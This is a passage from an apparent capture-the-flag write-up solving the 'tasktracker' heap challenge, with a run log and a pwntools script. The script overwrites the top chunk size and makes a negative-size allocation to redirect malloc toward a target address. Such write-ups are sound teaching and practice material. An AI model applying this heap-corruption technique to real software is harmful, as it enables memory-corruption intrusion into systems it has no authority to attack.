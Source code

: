 Lastly, we select `1`, which causes the program to call `print_flag()`:
```python
# Calling print_flag()
sla('Your choice:', '1')
```

Running the exploit prints the flag successfully:
```python
$ python solve.py
[*] '/mnt/c/Users/brand/Downloads/Task Tracker/tasktracker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/mnt/c/Users/brand/Downloads/Task Tracker/tasktracker': pid 1782
[*] Paused (press any to continue)
[*] Switching to interactive mode
******************************************************************************
Secure TaskTracker! Better than Medbay Scan at identifying imposters!
******************************************************************************
1.Show list of tasks
2.Add a task
3.Change a task (That is what an imposter would do :o)
4.Activate Communications
5.Call Emergency Meeting
******************************************************************************
Your choice:[*] Process '/mnt/c/Users/brand/Downloads/Task Tracker/tasktracker' stopped with exit code 0 (pid 1782)
DSO-NUS{fake_flag}
```

Full exploit code:
```python
from pwn import *
import sys

exe = ELF("./tasktracker")
host = "ctf-85ib.balancedcompo.site"
port = 9997

def malloc(size, data):
    sla('Your choice:', '2')
    sla('Please enter the length of task name:', str(size))
    sla('Please enter the name of task:', data)

def edit(index, size, data):
    sla('Your choice:', '3')
    sla('Please enter the index of the task you want to change:', str(index))
    sla('Enter the length of task name:', str(size))
    sla('Enter the new task name:', data)

def exploit(p):
    # Overwrite top chunk size with 0xffffffffffffffff
    payload = "A"*24 + p64(0xffffffffffffffff)
    malloc(8, "A"*8)
    edit(0, 64, payload)

    # Calculating the value of offset    
    target = 0x1802860
    top_chunk = 0x18028f0
    offset = top_chunk - target + 8

    # Allocate absurdly large chunk, which will wrap around memory
    malloc(-offset, p64(0x0))
```